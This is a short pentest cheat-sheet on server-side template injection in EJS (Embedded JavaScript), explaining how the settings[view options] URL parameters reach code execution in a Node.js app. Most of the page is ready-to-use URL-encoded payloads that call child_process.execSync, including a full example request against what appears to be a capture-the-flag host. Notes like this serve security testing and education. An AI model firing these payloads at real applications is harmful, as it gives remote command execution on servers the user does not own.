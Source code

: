 # EJS (Embedded Javascript Template)

> A misconfiguration in the `render()` method allows users to overwrite some configuration variables and execute code by adding a `setting` parameter in the get URL.

It requires to update some variables from the vulnerable field
- `settings[view options][client]=true`
- `settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('ls');`

**Payload example**
```bash
https://magistral-intranet.casinolimit.bzh/balances/search?q=camille&settings[view%20options][client]=true&settings[view%20options][escapeFunction]=1;return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27ls%27);
```

**Payloads**
```js
settings[view%20options][client]=true&settings[view%20options][escapeFunction]=1; return%20global.process.mainModule.constructor._load(%27child_process%27).execSync(%27ls%27);
```

```js
settings[view%20options][escapeFunction]=console.log; this.global.process.mainModule.require(%27child_process%27).execSync("ls");&settings[view%20options][client]=true
```

```js
settings[view options][outputFunctionName]=x;process.mainmodule.require('child_process').execSync('ls'));s
```

> [!NOTE] URL
> Be careful, it will require the payload to be nicely URL-encoded

# Resources

- https://eslam.io/posts/ejs-server-side-template-injection-rce/
